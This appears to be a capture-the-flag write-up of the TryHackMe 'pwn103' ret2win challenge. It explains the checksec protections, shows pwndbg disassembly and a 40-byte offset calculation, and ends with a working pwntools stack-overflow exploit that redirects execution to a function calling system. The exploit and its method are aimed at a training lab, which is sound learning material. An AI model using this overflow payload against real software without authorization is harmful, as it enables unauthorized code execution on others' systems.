 ```yaml
---
title: "pwn103"
date: 2024-01-10
layout: "simple"
categories: [Binary exploitation]
tags: [Tryhackme]
image: https://i.ibb.co/cgYN2Kr/th-3134630742.jpg
---
```


## 103

### Introduction

Here we are met by a ret2win challenge, what this means is that we are required to call a function which does something that is not normal, example spawn a shell or in case of a CTF it prints out the flag. We can start by doing simple binary analysis for example checking the binary protections using ```checksec```. 

Let us break all this down bit by bit.

``` 
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Arch: amd64-64-little
    This line specifies the architecture of the binary. "amd64" refers to the x86-64 architecture, a common architecture for modern desktop and server CPUs. "64-little" indicates that it's a 64-bit architecture (as opposed to 32-bit) and uses little-endian byte ordering.

RELRO: Partial RELRO
    RELRO stands for "RELocation Read-Only." It's a security feature in the ELF (Executable and Linkable Format) binaries (commonly used in Unix-like systems). "Partial RELRO" means that some parts of the binary's memory (like the Global Offset Table - GOT) are protected from certain types of attacks, but not completely. Full RELRO provides more robust protection by making more sections read-only after the program starts.

Stack: No canary found
    A stack canary is a security mechanism used to detect buffer overflows. It's a random value placed before the return address on the stack. "No canary found" means the binary doesn't implement this particular protection, potentially leaving it vulnerable to certain types of buffer overflow attacks.

NX: NX enabled
    NX (No eXecute) is a security feature that prevents code execution from areas of memory marked as data, reducing the risk of certain types of attacks, like buffer overflow attacks that attempt to execute malicious code injected into data areas. "NX enabled" indicates this protection is active, which is a good security measure.

PIE: No PIE (0x400000)
    PIE stands for "Position Independent Executable." When PIE is enabled, the base address of the program is randomized on each execution, making it harder for attackers to predict memory addresses. "No PIE (0x400000)" means the binary is loaded at a fixed address (0x400000 in this case), which might make certain types of attacks easier if other vulnerabilities are present.

Well since we have No Pie, this makes our life much easier since we can pass the address of the "win" function and call it, ret2win. We can also see that we have no canary meaning that we can actually overflow the buffer and over write the adjacent memory. With that said, now we can disassemble the binary. Here I will use be using a debugger to view the functions.

### Analysis

```
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  strncmp@plt
0x0000000000401040  puts@plt
0x0000000000401050  system@plt
0x0000000000401060  printf@plt
0x0000000000401070  read@plt
0x0000000000401080  strcmp@plt
0x0000000000401090  setvbuf@plt
0x00000000004010a0  __isoc99_scanf@plt
0x00000000004010b0  _start
0x00000000004010e0  _dl_relocate_static_pie
0x00000000004010f0  deregister_tm_clones
0x0000000000401120  register_tm_clones
0x0000000000401160  __do_global_dtors_aux
0x0000000000401190  frame_dummy
0x0000000000401196  setup
0x00000000004011f7  rules
0x0000000000401262  announcements
0x00000000004012be  general
0x0000000000401378  bot_cmd
0x00000000004014e2  discussion
0x000000000040153e  banner
0x0000000000401554  admins_only
0x000000000040158c  main
0x0000000000401680  __libc_csu_init
0x00000000004016e0  __libc_csu_fini
0x00000000004016e4  _fini
pwndbg> 

```
Interesting enough we can set our focus to this functions first.

```
0x0000000000401196  setup
0x00000000004011f7  rules
0x0000000000401262  announcements
0x00000000004012be  general
0x0000000000401378  bot_cmd
0x00000000004014e2  discussion
0x000000000040153e  banner
0x0000000000401554  admins_only
0x000000000040158c  main
```
So we can see that we have a very interesting functions named admins_only hmm can this be our win function? We can then disassemble this function in our debugger. 

```
pwndbg> disass admins_only 
Dump of assembler code for function admins_only:
   0x0000000000401554 <+0>:	push   rbp
   0x0000000000401555 <+1>:	mov    rbp,rsp
   0x0000000000401558 <+4>:	sub    rsp,0x10
   0x000000000040155c <+8>:	lea    rax,[rip+0x1d04]        # 0x403267
   0x0000000000401563 <+15>:	mov    rdi,rax
   0x0000000000401566 <+18>:	call   0x401040 <puts@plt>
   0x000000000040156b <+23>:	lea    rax,[rip+0x1d0a]        # 0x40327c
   0x0000000000401572 <+30>:	mov    rdi,rax
   0x0000000000401575 <+33>:	call   0x401040 <puts@plt>
   0x000000000040157a <+38>:	lea    rax,[rip+0x1d0e]        # 0x40328f
   0x0000000000401581 <+45>:	mov    rdi,rax
   0x0000000000401584 <+48>:	call   0x401050 <system@plt>
   0x0000000000401589 <+53>:	nop
   0x000000000040158a <+54>:	leave
   0x000000000040158b <+55>:	ret
End of assembler dump.
```

Ah yes we can see that we have a call to system, what this does is call system.
So after we have everything we need we can come up with an exploit. We can first run the binary to see how it runs normaly. 

![5](https://i.ibb.co/DLvBbC0/intro.png)

So going to option 3 we can get a hint that there is where we have the vuln.

We can then disassemble the general function in pwndbg again. 

```
0x00000000004012be <+0>:	push   rbp
   0x00000000004012bf <+1>:	mov    rbp,rsp
   0x00000000004012c2 <+4>:	sub    rsp,0x20
   0x00000000004012c6 <+8>:	lea    rax,[rip+0x10dd]        # 0x4023aa
   0x00000000004012cd <+15>:	mov    rdi,rax
   0x00000000004012d0 <+18>:	call   0x401040 <puts@plt>
   0x00000000004012d5 <+23>:	lea    rax,[rip+0x10e4]        # 0x4023c0
   0x00000000004012dc <+30>:	mov    rdi,rax
   0x00000000004012df <+33>:	call   0x401040 <puts@plt>
   0x00000000004012e4 <+38>:	lea    rax,[rip+0x10fd]        # 0x4023e8
   0x00000000004012eb <+45>:	mov    rdi,rax
   0x00000000004012ee <+48>:	call   0x401040 <puts@plt>
   0x00000000004012f3 <+53>:	lea    rax,[rip+0x111e]        # 0x402418
   0x00000000004012fa <+60>:	mov    rdi,rax
   0x00000000004012fd <+63>:	call   0x401040 <puts@plt>
   0x0000000000401302 <+68>:	lea    rax,[rip+0x1143]        # 0x40244c
   0x0000000000401309 <+75>:	mov    rdi,rax
   0x000000000040130c <+78>:	mov    eax,0x0
   0x0000000000401311 <+83>:	call   0x401060 <printf@plt>
   0x0000000000401316 <+88>:	lea    rax,[rbp-0x20]
   0x000000000040131a <+92>:	mov    rsi,rax
   0x000000000040131d <+95>:	lea    rax,[rip+0x1138]        # 0x40245c
   0x0000000000401324 <+102>:	mov    rdi,rax
   0x0000000000401327 <+105>:	mov    eax,0x0
   0x000000000040132c <+110>:	call   0x4010a0 <__isoc99_scanf@plt>
   0x0000000000401331 <+115>:	lea    rax,[rbp-0x20]
   0x0000000000401335 <+119>:	lea    rdx,[rip+0x1123]        # 0x40245f
   0x000000000040133c <+126>:	mov    rsi,rdx
   0x000000000040133f <+129>:	mov    rdi,rax
   0x0000000000401342 <+132>:	call   0x401080 <strcmp@plt>
   0x0000000000401347 <+137>:	test   eax,eax
   0x0000000000401349 <+139>:	jne    0x401366 <general+168>
   0x000000000040134b <+141>:	lea    rax,[rip+0x1111]        # 0x402463
   0x0000000000401352 <+148>:	mov    rdi,rax
   0x0000000000401355 <+151>:	call   0x401040 <puts@plt>
   0x000000000040135a <+156>:	mov    eax,0x0
   0x000000000040135f <+161>:	call   0x40158c <main>
   0x0000000000401364 <+166>:	jmp    0x401375 <general+183>
   0x0000000000401366 <+168>:	lea    rax,[rip+0x1112]        # 0x40247f
   0x000000000040136d <+175>:	mov    rdi,rax
   0x0000000000401370 <+178>:	call   0x401040 <puts@plt>
   0x0000000000401375 <+183>:	nop
   0x0000000000401376 <+184>:	leave
   0x0000000000401377 <+185>:	ret

```
We then need to determine the offset for the buffer at runtime. To do this, I first located the scanf and the buffer which handled all instrunctions. Considering that ```rbp-0x20``` is the buffer, which in bytes is 32. This means that the buffer is ```0x20``` or 32 bytes below the base pointer.

We would now need to overwrite the return address of ```general``` function that was put onto the stack and make it return to our win function instead. In order to reach our return address we would need 8 more bytes making them 40 in total

### Exploit


```
from pwn import *

p = process("./pwn103.pwn103") 
#p = remote("thm_ip", 9003)

admins_addr = p64(0x401554) 
return_addr = p64(0x401677)

payload = b'A' * 40 # found buffer at 40
payload += return_addr
payload += admins_addr

pause()

p.sendlineafter(":", "3")
p.sendline(payload)
p.interactive()

```
Here, ```admins_addr``` and ```return_addr``` are two addresses in the binary, represented as 64-bit packed values (p64). The return function serves as the address the program will attempt to return to after completing a function call.
The payload starts with 40 bytes of 'A's to fill the buffer until a potential buffer overflow point is reached. Then, it appends the return_addr followed by admins_addr in an attempt to redirect program execution to the admins_addr after overwriting the return address.

```pause()``` is used to pause the script execution, giving you time to attach a debugger if needed before the interaction with the vulnerable program begins.
```sendlineafter()``` sends the string "3" to the program, which directs the program to the general channel where we found the vuln hint.
```p.interactive()``` hands over the control of the program to you interactively, allowing you to send further commands manually and explore the program's state after the exploit attempt.
